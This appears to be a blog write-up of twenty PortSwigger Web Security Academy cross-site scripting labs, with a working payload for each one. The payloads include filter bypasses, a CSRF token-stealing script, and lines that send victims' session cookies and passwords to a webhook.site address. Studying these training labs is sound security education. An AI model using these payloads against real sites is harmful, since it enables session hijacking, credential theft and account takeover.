1. Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality. To solve the lab, perform a cross-site scripting attack that calls the alert function.
Use generic payload to alert "><script>alert("g4nd1v")</script> in search functionality.

2. Lab: Stored XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
There is a stored XSS present in the comment section, so let’s comment with generic XSS payload and then visit the website, and see if the payload is getting executed. Payload "><script>alert('g4nd1v')</script>

And when we visit the blog again, we will see the XSS is getting executed!
3. Lab: DOM XSS in document.write sink using source location.search
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL. To solve this lab, perform a cross-site scripting attack that calls the alert function.
Well if we can see the source after searching, this is the JS code.

It is usinglocation.search to get the parameter and then adding the image with query using document.write. So if we escape the quote and write our payload, it will give us alert.
Solution:
'"><script>alert(1)</script>
4. Lab: DOM XSS in document.write sink using source location.search inside a select element
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript
document.writefunction, which writes data out to the page. Thedocument.writefunction is called with data fromlocation.searchwhich you can control using the website URL. The data is enclosed within a select element. To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls thealertfunction.
If we see the source of webpage, we will see it is using storeId parameter from URL. So we have to add that to our URL, now what payload do we use?

From the image we can see it is usingdocument.write and inside that it is using <option> tag. Now in order to make our XSS work, we have to close option tag and then call script alert.
Solution:
?productId=2&storeId=</option><script>alert(1)</script>
5. Lab: DOM XSS in innerHTML sink using source location.search
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an
innerHTMLassignment, which changes the HTML contents of adivelement, using data fromlocation.search. To solve this lab, perform a cross-site scripting attack that calls thealertfunction.
Let’s see the source code.

We can see website is usinginnerHTML. The innerHTML sink doesn’t accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements.
Solution:
"><img src=x onerror=alert(1)>
6. Lab: Reflected XSS into HTML context with all tags blocked except custom ones
This lab blocks all HTML tags except custom ones. To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts
document.cookie.
In this lab, if we try to use common HTML tags, it will give us tag not allowed response.

So, in order to use the custom tags, we can reference cheatsheet provided by portswigger - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet. We can use custom tag like<custom-tag>, <xss> or it can be anything. But the 3 important thing in custom tag is the id, tabindex and #x. id is used to reference the tag, onfocus is used to call alert function when the element is focused. But how can we focus to the tag? Using tabindex. Yes, we have to make the custom tag tag indexable and using #x we can call that index and make it focus and it will call alert function. It is complicated but if we understand HTML tags underneath how it works, then it is fairly simple!
Payload: <xss id=x onfocus=alert(document.cookie) tabindex=1>#x
In order to solve the lab, we have to exploit server and paste this in body.
<script> location = 'https://0a63009503c3633b80cd760f00f500e6.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>Solution:
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
7. Lab: Reflected XSS with event handlers and href attributes blocked
This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor
hrefattributes are blocked. To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls thealertfunction. Note that you need to label your vector with the word “Click” in order to induce the simulated lab user to click your vector. For example:<a href="">Click me</a>
Alright, so for this lab, some tags and attributes are not allowed. If you try to use <h1> or <script> it will give us tags not allowed. Moreover, some attributes are also not allowed. In the challenge it says we have to use Click me with <a> tag, so I am guessing <a> is allowed. After fuzzing some inputs, I have found out that <animate> is also allowed. We can simply use similar payload to this - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#svg-animate-tag-using-values
So in our payload, we are sure that <a> is allowed, <animate> is also allowed. Moreover, animate tag is a part of <svg> tag, so I am guessing that is also allowed. We have to render text containing click so <text> is also allowed. Now, make a payload based on this.
Solution: payload -
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click</text></a>
8. Lab: Reflected XSS with some SVG markup allowed
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events. To solve the lab, perform a cross-site scripting attack that calls the
alert()function.
In this challenge, <svg> is allowed, whereas <a> and <animate> is not. From the cheatsheet, I have tried several payload, but none of them work. As animate is not working, I have tried other payload animatemotion, but it didn’t work. <animatetransform> did work actually.

The first payload itself worked for me: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onbeginSolution:
<svg><animatetransform onbegin=alert(1) attributeName=transform>
9. Lab: Reflected XSS into attribute with angle brackets HTML-encoded
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the
alertfunction.
For this challenge, I have tried entering "><script> in search and checked where the values is reflected. On checking the source, we can see it’s in <h1> tag, where it is encoded, and second is in value tag, again encoded. We cannot do anything inside <h1> so we will close value tag and add new onfocus attribute and check for XSS.

Solution:
" autofocus onfocus=alert(1) x="
10. Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the
alertfunction when the comment author name is clicked.
Similar to last challenge, I have entered abc, def etc in comment section and made a comment, while checking source code we can see that in href URL is present. We can enter javascript:alert(1) in URL to make it work.

Solution:
javascript:alert(1)
11. Lab: Reflected XSS in canonical link tag
This lab reflects user input in a canonical link tag and escapes angle brackets. To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function. Please note that the intended solution to this lab is only possible in Chrome.
Noticed in this lab there is no search field. Where should we enter payload? In the URL itself after /? If we try to use /?abcd in website and check the source if it is getting reflected.

Yes, it does! in<link>. So we have to break out of that string using ' and then use onclick in order to call alert. But for this lab we have to use access key. So we will set accesskey to X and finally we can able to generate a payload out of it.
Solution: Payload
?'accesskey='x'onclick='alert(1)
12. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
we have to escape quote in order to make our exploit work. If we search ‘abc’ and check source, we will see it is inside a quote.

If we escape the quote, close script tag and then alert with new script tags then it will give XSS.Solution:
'</script><script>alert(1)</script>
13. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
I have used similar payload from previous challenge, and we can observe that angle bracket is encoded.

so we will simply use'; to escape string character and use alert followed by // to comment everything after the alert.
Solution:
';alert(1)//
14. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
If you try with previous payload, you will notice it will add \ to escape ' character. What we will do it add one more backslash \ so it will backslash backslash. Sounds weird, haha.
Solution:
\';alert(1)//
15. Lab: Reflected XSS in a JavaScript URL with some characters blocked
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks. To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.
At first glance of website, there is no search functionality. But when you visit a blog website the URL will be /post?postId=2 if we append 2&abc in postId then we can see abc is reflected in source code.

Next, I have tried escaping' and a tag using this payload 2&'</a><script>alert(1)</script> but everything is encoded.

In order to solve this lab, we have to understand this article - https://portswigger.net/research/xss-without-parentheses-and-semi-colons. In order to make our XSS work, we have to close} bracket. So &'} will be the starting point for this challenge. Next we have the access to JavaScript. We will define a variable named as foo and then throw an exception with alert 1337.
Solution:
5&'},foo=foo=>{throw/**/onerror=alert,1337},toString=foo,window+'',{foo:'
16. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
Let’s inspect the comment section by submitting dummy data into the form.

So we we can see, inonclick we can able to bypass using website. So in order to bypass this I have made this payload http://google.com'');alert(1 but it seems when the user is clicked, it is redirecting us to http://google.com/'/');alert(1. Also it is escaping quote in onclick. So the payload will be encoded with '.
Solution:
http://google.com?#'-alert(1)-'
17. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.
If we look at source code, it is having template string. We just have to use this format in order to get the flag. ${}
Solution:
${alert(1)}
18. Lab: Exploiting cross-site scripting to steal cookies
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim’s session cookie, then use this cookie to impersonate the victim.
Starting with this challenges, we will have to see if it is popping alert, so simply using "><script>alert(1)</script> we give us the idea of where the alert is getting popped.
Payload: "><script>document.location="https://webhook.site/ee57e94f-3983-4a63-a3fe-26adf3e94ee8?c="+document.cookie</script>. Though this is valid payload, we can also use alternate payload: <script>fetch("https://webhook.site/ee57e94f-3983-4a63-a3fe-26adf3e94ee8?cookie="+document.cookie);</script>
Solution: Change the cookie and go to
/my-accountand it will solve the lab
19. Lab: Exploiting cross-site scripting to capture passwords
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim’s username and password then use these credentials to log in to the victim’s account.
So, we have to create a password input and on changing the password, we have to get the value to our webhook. The following payload should suppose to work, but I am not seeing any results on webhook.
<input type=password name=password onchange="if(this.value.length)fetch("https://webhook.site/ee57e94f-3983-4a63-a3fe-26adf3e94ee8?pass="+this.value);">
When I checked the solution - it has similar payload
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://webhook.site/ee57e94f-3983-4a63-a3fe-26adf3e94ee8',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
Solution: When we get the username and password, by login in it will solve the lab.
20. Lab: Exploiting XSS to bypass CSRF defenses
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments. You can log in to your own account using the following credentials:
wiener:peter
If we login with this credentials, we will see there is an update email functionality. Just for testing we will try to change email of some random user asdf@test.com and what we noticed from this browser is sending post request to /my-account/change-email with email and csrf token. So, we can do CSRF if we find the token and using XSS we can get all the things from DOM. So let’s build exploit. Starting with the CSRF token, we can use getElementsByName to grab token and using fetch we will make a post request with random email and the token. Sending it in comment section and it will solve the lab.
<script>
window.addEventListener('DOMContentLoaded', function() {
var token = document.getElementsByName('csrf')[0].value
var data = new FormData();
data.append('csrf', token);
data.append('email', 'random@gmail.com');
fetch('/my-account/change-email', {
method: 'POST',
mode: 'no-cors',
body: data
});
});
</script>Solution: Use above script in comment section.